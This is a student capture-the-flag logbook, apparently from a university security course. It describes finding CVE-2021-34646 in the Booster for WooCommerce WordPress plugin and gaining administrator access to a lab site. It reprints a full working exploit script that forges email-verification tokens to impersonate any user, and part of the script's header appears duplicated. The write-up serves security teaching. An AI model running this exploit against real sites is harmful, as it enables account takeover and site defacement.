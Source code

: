 # Work done in week #3

## CTF - Week 3

Sanity Check: The flag was on the rules as stated.

Challenge 1:
1. We accessed the provided URL and explored the products being sold.
2. We found a product with a comment reporting security issues.
3. We checked the versions of WordPress and plugins for the product.
4. We noticed a footer message stating that the seller uses the same plugins and WordPress.
5. We searched for CVEs (Common Vulnerabilities and Exposures) corresponding to the collected information.
6. We found 2 possible candidates, and one of them was correct.

Challenge 2:
1. We used the provided exploit at https://www.exploit-db.com/exploits/50299.
2. Initially, we encountered issues trying to run the file without the correct permissions and with the wrong Python version.
3. When accessing the address provided http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/1 (being 1 the user id) by the exploiter, we verified that the id belongs to the admin

![CheckAdminID](/Logbooks/img/checkAdminID.png)

4. We executed the exploit with the target's URL and ID 1.
5. We obtained 3 possible URLs, and one of them granted us administrator privileges.

![HashCodes](/Logbooks/img/3HashCodes.png)

6. We accessed the provided posts section at http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php.
7. In an admin post, we found the flag.


**Exploit:**

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")
```

## Identification

- CVE-2021-34646 - WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass (https://www.exploit-db.com/exploits/50299)

- This vulnerability allows remote attackers to bypass authentication and act as other users. The WooCommerce Booster Plugin has a weak random token generation in the reset_and_mail_activation_link function found in the ~/includes/class-wcj-emails-verification.php file. Attackers can easily generate a token that, when used with the process_email_verification function, allows the impersonation of users, including administrators. This vulnerability requires the "Email Verification" module and the "Login User After Successful Verification" setting to be enabled, which it is by default.

- Affected systems:
    - WordPress Plugin WooCommerce Booster Plugin 5.4.3

## Catalogue

- This exploit garnered an exceptionally high CVSS score of 9.8 out of 10, signifying its extreme criticality.

## Exploit

The exploit used by us was found in the following url: https://www.exploit-db.com/exploits/50299

It's a python script that takes a URL and a user ID as parameters. It, then, generates possible email verification tokens for that user, through the known weak token generation method. Finaly, it creates various URLs with those tokens, of which, one of them can authenticate the attacker as the user for the given URL.

## Atacks

When gaining access to the website as an admin, we found that the attacker can edit the contents he would like such as the home page:

![AdminControl1](/Logbooks/img/adminControl1.png)

![AdminControl2](/Logbooks/img/adminControl2.png)
